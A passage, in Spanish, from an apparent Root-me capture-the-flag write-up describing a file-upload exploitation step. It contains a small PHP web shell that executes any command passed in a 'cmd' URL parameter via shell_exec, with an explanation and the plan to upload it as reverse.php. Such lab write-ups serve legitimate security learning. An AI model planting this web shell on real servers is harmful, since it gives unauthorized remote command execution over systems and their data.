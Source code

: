 ![](/imagenes/Root_me/rootme8.png)

Es exitoso, por lo tanto, vamos a intentar subir un archivo php malicioso:

## Explotación

```php
<?php  
    echo "<pre>" . shell_exec($_REQUEST['cmd']). "</pre>" ;
?>
```

Este pequeño archivo php nos ayudará mediante la función **shell_exec** ejecutar comandos en el servidor web, todo esto a través de una variable llamada "cmd", la cual se recibe como parámetro en la url. Vamos a llamar a este archivo **reverse.php** y lo intentaremos subir al servidor web:

![](/imagenes/Root_me/rootme9.png)

